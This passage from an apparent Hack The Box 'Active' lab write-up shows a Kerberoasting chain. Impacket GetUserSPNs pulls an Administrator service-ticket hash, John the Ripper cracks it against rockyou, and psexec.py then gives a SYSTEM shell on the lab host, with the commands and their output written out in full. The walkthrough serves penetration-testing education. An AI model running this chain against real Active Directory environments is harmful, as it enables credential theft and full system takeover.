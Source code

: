 Another way of doing this is to run the Impacket tool GetUserSPNs. This will do an LDAP query to retrieve the SPNs for any active user accounts and once it has obtained them, will request a service ticket from the TGS for the SPN.

```bash
┌─[rin@parrot]─[~/boxes/Active]
└──╼ $GetUserSPNs.py -request active.htb/svc_tgs:GPPstillStandingStrong2k18
Impacket  - Copyright 2020 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
-------------------- ------------- -------------------------------------------------------- -------------------------- -------------------------- ----------
active/CIFS:445 Administrator CN=Group Policy Creator Owners,CN=Users,
    DC=active,DC=htb 2018-07-19 03:06:40.351723 2018-07-31 01:17:40.656520
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$747cecdf774ef
43de5898565b46b052f$ee66d6d688a824efdbe603c6e72bd82ff38da9a38e0c8defde5ce8582
1a5a8b71848dcc637f9b8e860801f5e3e361fb79e4abb97e250c94aaeb3482f93b3cef6f3360c
587f9d6136fc3eeb2a6c44349071e9be126065dee4f57474597fc6aa08d98ea0b3a31cc9bbadf
...<SNIP>
```

As Administrator had an SPN which was "active/CIFS:445" we got a service ticket that we can now try and crack with John The Ripper:

```bash
┌─[rin@parrot]─[~/boxes/Active]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
```

That gives us a password Ticketmaster1968 which we can use with psexec.py to get remote command shell on the box.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Active]
└──╼ $psexec.py active.htb/Administrator:Ticketmaster1968@10.129.26.7
Impacket - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.129.26.7.....
[*] Found writable share ADMIN$
[*] Uploading file mDNtlaXF.exe
[*] Opening SVCManager on 10.129.26.7.....
[*] Creating service MkZv on 10.129.26.7.....
[*] Starting service MkZv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
```

You can find users with SPNs using an ldapsearch:
